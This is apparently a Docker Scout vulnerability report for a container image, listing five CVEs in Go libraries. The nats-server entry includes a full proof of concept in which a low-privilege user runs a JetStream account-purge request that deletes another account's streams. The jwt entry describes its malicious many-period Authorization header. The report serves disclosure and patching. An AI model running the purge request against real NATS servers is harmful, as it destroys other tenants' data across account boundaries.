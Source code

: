 ```yaml
---
hide_table_of_contents: true
---
```


<table>
<tr><td>digest</td><td><code>sha256:e654794c5cda6e24c66ab19209e8b24337233451c3a6c838561fa931939d26b8</code></td><tr><tr><td>vulnerabilities</td><td><img alt="critical: 1" src="https://img.shields.io/badge/critical-1-8b1924"/> <img alt="high: 2" src="https://img.shields.io/badge/high-2-e25d68"/> <img alt="medium: 2" src="https://img.shields.io/badge/medium-2-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/low-0-lightgrey"/> <!-- unspecified: 0 --></td></tr>
<tr><td>platform</td><td>linux/arm64</td></tr>
<tr><td>size</td><td>40 MB</td></tr>
<tr><td>packages</td><td>235</td></tr>
</table>
</details></table>
</details>

<table>
<tr><td valign="top">
<details><summary><img alt="critical: 1" src="https://img.shields.io/badge/C-1-8b1924"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>github.com/nats-io/nats-server/v2</strong> <code>2.10.16</code> (golang)</summary>

<small><code>pkg:golang/github.com/nats-io/nats-server@2.10.16#v2</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2025-30215?s=github&n=v2&ns=github.com%2Fnats-io%2Fnats-server&t=golang&vr=%3E%3D2.2.0%2C%3C2.10.27"><img alt="critical 9.6: CVE--2025--30215" src="https://img.shields.io/badge/CVE--2025--30215-lightgrey?label=critical%209.6&labelColor=8b1924"/></a> <i>Improper Authorization</i>

<table>
<tr><td>Affected range</td><td><code>>=2.2.0<br/><2.10.27</code></td></tr>
<tr><td>Fixed version</td><td><code>2.10.27</code></td></tr>
<tr><td>CVSS Score</td><td><code>9.6</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:N/I:H/A:H</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.028%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>6th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

## Advisory

The management of JetStream assets happens with messages in the `$JS.` subject namespace in the system account; this is partially exposed into regular accounts to allow account holders to manage their assets.

Some of the JS API requests were missing access controls, allowing any user with JS management permissions in any account to perform certain administrative actions on any JS asset in any other account. At least one of the unprotected APIs allows for data destruction. None of the affected APIs allow disclosing stream contents.

### Affected versions

NATS Server:
 * Version 2 from v2.2.0 onwards, prior to v2.11.1 or v2.10.27

-----

## Original Report

(Lightly edited to confirm some supposition and in the summary to use past tense)

### Summary

nats-server did not include authorization checks on 4 separate admin-level JetStream APIs: account purge, server remove,  account stream move, and  account stream cancel-move.

In all cases, APIs are not properly restricted to system-account users. Instead, _any_ authorized user can execute the APIs, including across account boundaries, as long as the current user merely has permission to publish on `$JS.>`.

Only the first seems to be of highest severity. All are included in this single report as they seem likely to have the same underlying root cause.

Reproduction of the `ACCOUNT.PURGE` case is below. The others are like it.


### Details & Impact

#### Issue 1: `$JS.API.ACCOUNT.PURGE.*`

Any user may perform an account purge of any other account (including their own).

Risk: total destruction of Jetstream configuration and data.


#### Issue 2: `$JS.API.SERVER.REMOVE`

Any user may remove servers from Jetstream clusters.

Risk: Loss of data redundancy, reduction of service quality.


#### Issue 3: `$JS.API.ACCOUNT.STREAM.MOVE.*.*` and `CANCEL_MOVE`

Any user may cause streams to be moved between servers.

Risk: loss of control of data provenance, reduced service quality during move, enumeration of account and/or stream names.

Similarly for `$JS.API.ACCOUNT.STREAM.CANCEL_MOVE.*.*`


#### Mitigations

It appears that users without permission to publish on `$JS.API.ACCOUNT.>` or `$JS.API.SERVER.>` are unable to execute the above APIs.

Unfortunately, in many configurations, an 'admin' user for a single account will be given permissions for `$JS.>` (or simply `>`), which allows the improper access to the system APIs above.


#### Scope of impact

Issues 1 and 3 both cross boundaries between accounts, violating promised account isolation. All 3 allow system level access to non-system account users.

While I cannot speak to what authz configurations are actually found in the wild, per the discussion in Mitigations above, it seems likely that at least some configurations are vulnerable.


#### Additional notes

It appears that `$JS.API.META.LEADER.STEPDOWN` does properly restrict to system account users. As such, this may be a pattern for how to properly authorize these other APIs.



### PoC

#### Environment

Tested with:
nats-server 2.10.26 (installed via homebrew)
nats cli 0.1.6 (installed via homebrew)
macOS 13.7.4


#### Reproduction steps

```
$ nats-server --version
nats-server: v2.10.26

$ nats --version
0.1.6

$ cat nats-server.conf
listen: '0.0.0.0:4233'
jetstream: {
  store_dir: './tmp'
}
accounts: {
  '$SYS': {
    users: [{user: 'sys', password: 'sys'}]
  },
  'TEST': {
    jetstream: true,
    users: [{user: 'a', password: 'a'}]
  },
  'TEST2': {
    jetstream: true,
    users: [{user: 'b', password: 'b'}]
  }
}

$ nats-server -c ./nats-server.conf
...
[90608] 2025/03/02 11:43:18.494663 [INF] Using configuration file: ./nats-server.conf
...
[90608] 2025/03/02 11:43:18.496395 [INF] Listening for client connections on 0.0.0.0:4233
...

# Authentication is effectively enabled by the server:
$ nats -s nats://localhost:4233 account info
nats: error: setup failed: nats: Authorization Violation

$ nats -s nats://localhost:4233 account info --user sys --password wrong
nats: error: setup failed: nats: Authorization Violation

$ nats -s nats://localhost:4233 account info --user a --password wrong
nats: error: setup failed: nats: Authorization Violation

$ nats -s nats://localhost:4233 account info --user b --password wrong
nats: error: setup failed: nats: Authorization Violation

# Valid credentials work, and users properly matched to accounts:
$ nats -s nats://localhost:4233 account info --user sys --password sys
Account Information
                      User: sys
                   Account: $SYS
...

$ nats -s nats://localhost:4233 account info --user a --password a
Account Information
                           User: a
                        Account: TEST
...

$ nats -s nats://localhost:4233 account info --user b --password b
Account Information
                           User: b
                        Account: TEST2
...

# Add a stream and messages to account TEST (user 'a'):
$ nats -s nats://localhost:4233 --user a --password a stream add stream1 --subjects s1 --storage file --defaults
Stream stream1 was created
...

$ nats -s nats://localhost:4233 --user a --password a publish s1 --count 3 "msg {{Count}}"
11:50:05 Published 5 bytes to "s1"
11:50:05 Published 5 bytes to "s1"
11:50:05 Published 5 bytes to "s1"

# Messages are correctly persisted on account TEST, and not on TEST2:
$ nats -s nats://localhost:4233 --user a --password a stream ls
╭───────────────────────────────────────────────────────────────────────────────╮
│                                    Streams                                    │
├─────────┬─────────────┬─────────────────────┬──────────┬───────┬──────────────┤
│ Name    │ Description │ Created             │ Messages │ Size  │ Last Message │
├─────────┼─────────────┼─────────────────────┼──────────┼───────┼──────────────┤
│ stream1 │             │ 2025-03-02 11:48:49 │ 3        │ 111 B │ 46.01s       │
╰─────────┴─────────────┴─────────────────────┴──────────┴───────┴──────────────╯

$ nats -s nats://localhost:4233 --user b --password b stream ls
No Streams defined

$ du -h tmp/jetstream
  0B	tmp/jetstream/TEST/streams/stream1/obs
8.0K	tmp/jetstream/TEST/streams/stream1/msgs
 16K	tmp/jetstream/TEST/streams/stream1
 16K	tmp/jetstream/TEST/streams
 16K	tmp/jetstream/TEST
 16K	tmp/jetstream

# User b (account TEST2) sends a PURGE command for account TEST (user a).
# According to the source comments, user b shouldn't even be able to purge it's own account, much less another one.
$ nats -s nats://localhost:4233 --user b --password b request '$JS.API.ACCOUNT.PURGE.TEST' ''
11:54:50 Sending request on "$JS.API.ACCOUNT.PURGE.TEST"
11:54:50 Received with rtt 1.528042ms
{"type":"io.nats.jetstream.api.v1.account_purge_response","initiated":true}

# From nats-server in response to the purge request:
[90608] 2025/03/02 11:54:50.277144 [INF] Purge request for account TEST (streams: 1, hasAccount: true)

# And indeed, the stream data is gone on account TEST:
$ du -h tmp/jetstream
  0B	tmp/jetstream

$ nats -s nats://localhost:4233 --user a --password a stream ls
No Streams defined

```

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 1" src="https://img.shields.io/badge/H-1-e25d68"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>github.com/golang-jwt/jwt/v4</strong> <code>4.5.1</code> (golang)</summary>

<small><code>pkg:golang/github.com/golang-jwt/jwt@4.5.1#v4</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2025-30204?s=github&n=v4&ns=github.com%2Fgolang-jwt%2Fjwt&t=golang&vr=%3C4.5.2"><img alt="high 8.7: CVE--2025--30204" src="https://img.shields.io/badge/CVE--2025--30204-lightgrey?label=high%208.7&labelColor=e25d68"/></a> <i>Asymmetric Resource Consumption (Amplification)</i>

<table>
<tr><td>Affected range</td><td><code>&lt;4.5.2</code></td></tr>
<tr><td>Fixed version</td><td><code>4.5.2</code></td></tr>
<tr><td>CVSS Score</td><td><code>8.7</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:N/VI:N/VA:H/SC:N/SI:N/SA:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.022%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>4th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

### Summary

Function [`parse.ParseUnverified`](https://github.com/golang-jwt/jwt/blob/c035977d9e11c351f4c05dfeae193923cbab49ee/parser.go#L138-L139) currently splits (via a call to [strings.Split](https://pkg.go.dev/strings#Split)) its argument (which is untrusted data) on periods.

As a result, in the face of a malicious request whose _Authorization_ header consists of `Bearer ` followed by many period characters, a call to that function incurs allocations to the tune of O(n) bytes (where n stands for the length of the function's argument), with a constant factor of about 16. Relevant weakness: [CWE-405: Asymmetric Resource Consumption (Amplification)](https://cwe.mitre.org/data/definitions/405.html)

### Details

See [`parse.ParseUnverified`](https://github.com/golang-jwt/jwt/blob/c035977d9e11c351f4c05dfeae193923cbab49ee/parser.go#L138-L139) 

### Impact

Excessive memory allocation

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 1" src="https://img.shields.io/badge/H-1-e25d68"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>golang.org/x/oauth2</strong> <code>0.26.0</code> (golang)</summary>

<small><code>pkg:golang/golang.org/x/oauth2@0.26.0</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2025-22868?s=golang&n=oauth2&ns=golang.org%2Fx&t=golang&vr=%3C0.27.0"><img alt="high : CVE--2025--22868" src="https://img.shields.io/badge/CVE--2025--22868-lightgrey?label=high%20&labelColor=e25d68"/></a> 

<table>
<tr><td>Affected range</td><td><code>&lt;0.27.0</code></td></tr>
<tr><td>Fixed version</td><td><code>0.27.0</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.051%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>16th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

An attacker can pass a malicious malformed token which causes unexpected memory to be consumed during parsing.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 1" src="https://img.shields.io/badge/M-1-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>golang.org/x/net</strong> <code>0.37.0</code> (golang)</summary>

<small><code>pkg:golang/golang.org/x/net@0.37.0</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2025-22872?s=github&n=net&ns=golang.org%2Fx&t=golang&vr=%3C0.38.0"><img alt="medium 5.3: CVE--2025--22872" src="https://img.shields.io/badge/CVE--2025--22872-lightgrey?label=medium%205.3&labelColor=fbb552"/></a> <i>Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')</i>

<table>
<tr><td>Affected range</td><td><code>&lt;0.38.0</code></td></tr>
<tr><td>Fixed version</td><td><code>0.38.0</code></td></tr>
<tr><td>CVSS Score</td><td><code>5.3</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:P/VC:N/VI:N/VA:N/SC:L/SI:L/SA:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.012%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>1st percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

The tokenizer incorrectly interprets tags with unquoted attribute values that end with a solidus character (/) as self-closing. When directly using Tokenizer, this can result in such tags incorrectly being marked as self-closing, and when using the Parse functions, this can result in content following such tags as being placed in the wrong scope during DOM construction, but only when tags are in foreign content (e.g. <math>, <svg>, etc contexts).

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 1" src="https://img.shields.io/badge/M-1-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>gopkg.in/square/go-jose.v2</strong> <code>2.6.0</code> (golang)</summary>

<small><code>pkg:golang/gopkg.in/square/go-jose.v2@2.6.0</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2024-28180?s=github&n=go-jose.v2&ns=gopkg.in%2Fsquare&t=golang&vr=%3C%3D2.6.0"><img alt="medium 4.3: CVE--2024--28180" src="https://img.shields.io/badge/CVE--2024--28180-lightgrey?label=medium%204.3&labelColor=fbb552"/></a> <i>Improper Handling of Highly Compressed Data (Data Amplification)</i>

<table>
<tr><td>Affected range</td><td><code>&lt;=2.6.0</code></td></tr>
<tr><td>Fixed version</td><td><strong>Not Fixed</strong></td></tr>
<tr><td>CVSS Score</td><td><code>4.3</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:N/A:L</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.254%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>49th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

### Impact
An attacker could send a JWE containing compressed data that used large amounts of memory and CPU when decompressed by Decrypt or DecryptMulti. Those functions now return an error if the decompressed data would exceed 250kB or 10x the compressed size (whichever is larger). Thanks to Enze Wang@Alioth and Jianjun Chen@Zhongguancun Lab (@zer0yu and @chenjj) for reporting.

### Patches
The problem is fixed in the following packages and versions:
- github.com/go-jose/go-jose/v4 version 4.0.1
- github.com/go-jose/go-jose/v3 version 3.0.3
- gopkg.in/go-jose/go-jose.v2 version 2.6.3

The problem will not be fixed in the following package because the package is archived:
- gopkg.in/square/go-jose.v2

</blockquote>
</details>
</details></td></tr>
</table>

